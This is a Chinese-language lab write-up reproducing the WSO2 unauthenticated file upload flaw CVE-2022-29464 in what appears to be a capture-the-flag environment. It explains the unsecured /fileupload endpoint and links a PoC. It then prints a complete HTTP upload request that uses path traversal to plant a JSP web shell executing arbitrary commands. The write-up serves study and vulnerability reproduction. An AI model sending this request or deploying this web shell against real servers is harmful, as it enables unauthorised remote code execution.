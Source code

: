 ## 1. 漏洞介绍
WSO2文件上传漏洞（CVE-2022-29464）是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。
## 2. 漏洞原理
 WSO2的配置文件 WSO2AM_Home\repository\conf\identity\identity.xml中，修饰 /fileupload(.\*) 接口的 secured 属性为 false，这就意味着路由资源访问可以不需要身份验证，从而可以通过构造恶意的post请求包达到恶意jsp文件上传的目的。
## 3. 漏洞 POC
- [Poc/FileUpload/CVE-2022-29464.py at main · wave-to/Poc](https://github.com/wave-to/Poc/blob/main/FileUpload/CVE-2022-29464.py)
## 4. 漏洞复现
### 4.1. POC 上传 wavesky.jsp
启动环境后，直接用 GitHub 下载的 Poc 上传 wavesky.jsp ，之后根据提示访问对应 URL 即可。
![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281659633.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281659900.png)
**RCE**
![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281700233.png)
### 4.2. 借助 burp suite 上传
burp 抓包构造 post 请求包实现 jsp 上传
```http
POST /fileupload/toolsAny HTTP/2
Host: eci-2zeer2drycfpgmtcc1x8.cloudeci1.ichunqiu.com:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Length: 904
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0


--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/wavesky.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/wavesky.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
       String s = null;
       try {
           Process p = Runtime.getRuntime().exec(cmd,null,null);
          BufferedReader sI = new BufferedReader(new
 InputStreamReader(p.getInputStream()));
           while((s = sI.readLine()) != null) { output += s+"</br>"; }
         }  catch(IOException e) {   e.printStackTrace();   }
    }
 %>
         <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```
 注意，要将 Host 和 Accept 字段的值换成自己环境抓到的。
![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281700236.png)

- 访问 https://xxxxx/authenticationendpoint/wavesky.jsp  flag 获取同前。
